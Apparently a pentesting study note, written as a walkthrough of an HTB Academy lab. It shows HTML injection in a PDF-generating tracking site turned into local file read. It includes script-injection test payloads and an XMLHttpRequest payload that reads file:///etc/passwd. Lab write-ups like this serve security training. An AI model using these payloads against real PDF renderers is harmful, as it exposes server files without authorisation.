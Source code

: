 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SSRF -> LFI

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.
{% endhint %}

The site `tracking.inlanefreight.local` accepts a tracking number and generates a PDF document. The tracking number gets reflected in the PDF (Figure 1).

<figure><img src="../../../../.gitbook/assets/html_injection.png" alt=""><figcaption><p>Figure 1: The input gets reflected within the generated PDF.</p></figcaption></figure>

The input field takes any input, not just numbers, and accepts both HTML and JS (Figure 2).

{% tabs %}
{% tab title="HTML Payload" %}
```html
<h1>test</h1>
```
{% endtab %}

{% tab title="JS Payload" %}
```javascript
<script>document.write('TESTING THIS')</script>
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../../.gitbook/assets/html_injection_test.png" alt=""><figcaption><p>Figure 2: Testing HTML injection.</p></figcaption></figure>

Follow [this](https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f) and [this](https://web.archive.org/web/20221207162417/https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/) post that use [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest), we can try to achieve LFI (Figure 3).

{% tabs %}
{% tab title="Payload" %}
```javascript
<script>
	x=new XMLHttpRequest;
	x.onload=function(){  
	document.write(this.responseText)};
	x.open("GET","file:///etc/passwd");
	x.send();
	</script>
```
{% endtab %}

{% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}

<figure><img src="../../../../.gitbook/assets/html_injection_to_lfi.png" alt=""><figcaption><p>Figure 3: HTML Injection to LFI.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="SSRF via PDF HTML Injection" %}
{% embed url="https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90" %}
{% endtab %}

{% tab title="SSRF to LFI via PDF HTML Injection" %}
{% embed url="https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f" %}
{% endtab %}
{% endtabs %}


